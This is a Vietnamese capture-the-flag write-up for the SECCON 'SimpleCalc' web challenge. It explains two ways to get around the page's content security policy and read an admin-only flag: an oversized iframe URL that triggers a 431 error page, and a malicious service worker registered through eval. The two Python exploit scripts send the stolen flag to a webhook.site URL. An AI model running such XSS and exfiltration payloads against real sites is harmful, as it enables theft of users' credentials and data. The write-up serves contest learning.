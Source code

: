 # SimpleCalc

Sau khi xem source thì ta có thể dễ dàng thấy được đây là một bài client side. 

Ta cần GET tới `/flag` để lấy được flag

![Oops](images/flag_route.png)

Request get cần phải có cookie của admin và header phải có trường `X-FLAG`.

Ứng dụng web sử dụng CSP như sau:

![Oops](images/csp.png)

File `js/index.js` như sau:

![Oops](images/js_indexjs.png)

## Vấn đề:

Do ở file `bot.js` đặt cookie là httpOnly. Nên ban đầu mình nghĩ là nếu sử dụng `window.open()` tới `/flag` thì sẽ có admin cookie nhưng lại không thêm được header `X-FLAG`. Còn nếu muốn thêm header `X-FLAG` thì lại không GET tới được `/flag` do CSP không cho phép truy vấn tới gì ngoài `/js/index.js`.

Và thế là mình kẹt ở đây 🥹

## Solution

Sau giải mình có xem writeup thì thấy người ta làm như sau.

### Unintended Solution
```py
import requests

URL = "http://simplecalc.seccon.games:3000/report"
payload = """
var f=document.createElement('iframe');
f.src=`http://localhost:3000/js/index.js?q=${'a'.repeat(20000)}`;
document.body.appendChild(f);
f.onload = () => {
    f.contentWindow.fetch("/flag", {headers: {"X-FLAG": "a"}, credentials: "include"})
    .then(res => res.text())
    .then(flag => location="https://webhook.site/e01d7090-2956-4acf-b10f-62bcde2ddf4f?q="+flag);
}

"""
print(payload)
data = {
    'expr': payload
}

print(requests.post(URL, data=data).text)
```

Tạo một iframe tới `/js/index.js` (do CSP chỉ cho phép như thế), nhưng làm cho URL rất dài và browser sẽ báo lỗi 431 do URL dài quá. Khi URL quá dài thì Chrome sẽ báo lỗi và chuyển hướng tới trang `chrome-error://chromewebdata/`, tuy nhiên trong iframe thì không chuyển hướng và tạo ra một page cùng domain nhưng lại không có CSP. Từ đó dễ dàng lấy được flag.

### Intended solution
Sử dụng service worker để sử response do server trả về.

```py

import requests
from urllib.parse import quote

URL = "http://simplecalc.seccon.games:3000/report"
# URL = "http://localhost:3000/report"
payload = """
serviceWorkerCode = `
console.log('here');

  // Thêm vào để phù hợp với logic chương trình, làm chương trình không báo lỗi.
  // Khi chỉ xem xét kỹ thuật sử dụng service workder thì nên bỏ qua đoạn này.
  document = {
    getElementById: () => {return {innerText: 1}}
  }

  self.addEventListener('fetch', function(event) {
    console.log(event);
    if (/index.js/.test(event.request.url))
    {
      headers = new Headers();
      headers.set('Content-Type', 'text/html');
      event.respondWith(new Response("<script>fetch('/flag', {credentials: 'include', headers: {'X-FLAG': 1}}).then(res=>{return res.text()}).then(flag=>{console.log(flag);fetch('https://webhook.site/e01d7090-2956-4acf-b10f-62bcde2ddf4f?q='+encodeURIComponent(flag))})</script>", {headers:headers}))
    }
  });

  1;
`;

navigator.serviceWorker.register('/js/index.js?expr=' + encodeURIComponent(serviceWorkerCode));

setTimeout(()=>{location='/js/index.js'}, 2000);
1;
"""
print(payload)
data = {
    'expr': payload
}

print("http://localhost:3000?expr=" + quote(payload))

print(requests.post(URL, data=data).text)

```

Sử dụng `navigator.serviceWorker.register('/js/index.js?expr=' + encodeURIComponent(serviceWorkerCode));` để register service worker. Sau đó browser sẽ get tới `/js/index.js` và chạy, bên trong `/js/index.js` có `eval(expr)` nên có thể attacker điều khiển được service worker. Từ đó attack sẽ thêm event listener là mỗi khi fetch sẽ trả về response với body là XSS payload và không có CSP header. Sau đó redirect về `/js/index.js` để trigger event listner.

## Note:
Nếu kẹt quá như [trên](#vấn-đề) thì nên nghĩ qua một hướng đó là thay đổi response của server trả về client. Ví dụ như:
* Sinh lỗi 431 -> Không còn CSP.
* Sử dụng service worker sửa repsonse trả về -> Không còn CSP.